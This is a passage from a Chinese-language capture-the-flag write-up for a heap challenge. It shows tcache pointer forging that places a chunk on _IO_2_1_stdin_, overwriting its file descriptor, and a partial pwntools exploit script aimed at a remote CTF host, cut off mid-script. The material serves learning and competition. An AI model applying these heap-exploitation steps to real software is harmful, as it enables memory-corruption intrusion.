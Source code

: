    ![image-20240728114333903](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281143143.png)

   ![image-20240728114410908](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281144037.png)

3. 修改next指针指向_IO_2_1_stdin_结构体，利用前面泄漏的libc高4位地址。再次申请chunk20和chunk30时会切割刚才释放进unsortedbin的chunk，里面会有**高位地址**：

   ```python
   #伪造next 申请到IO_file_stdinchunk 修改IO_file_stdin结构体
   add(2,str(IO_file_stdin_addr))
   for i in range(4):
       free(2)
       add(1,str(IO_file_stdin_addr))
   add(2,str(heap_addr+0x280))
   ```

   ![image-20240728115220931](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281152306.png)

   ![image-20240728115246251](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281152625.png)

4. 最后修改_IO_2_1_stdin结构体的文件描述符，调用后门函数4即可输出flag：

   ```python
   add(2,str(0))
   add(2,str(0))
   #修改IO_file_stdin
   add(2,str(666))
   
   #利用scanf读取
   p.sendlineafter(b'>','4')
   p.interactive()
   ```

5. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   p = remote("node5.buuoj.cn",28999)
   libc = ELF('./libc-2.27.so')
   elf = ELF("./pwn")
   
   def add(choose,content):
       p.sendlineafter(b'>','1')
       p.sendlineafter(b'>',str(choose).encode())
       p.sendlineafter(':',content)
   
   def show(choose):
       p.sendlineafter(b'>',b'3')
       p.sendlineafter(b'>',str(choose).encode())
   
   def free(choose):
       p.sendlineafter(b'>','2')
       p.sendlineafter(b'>',str(choose).encode())
   
   #泄漏堆地址
   add(1,str(int("0",16)))
   add(1,str(int("FFFF",16)))
   for i in range(6):
       free(1)
   ```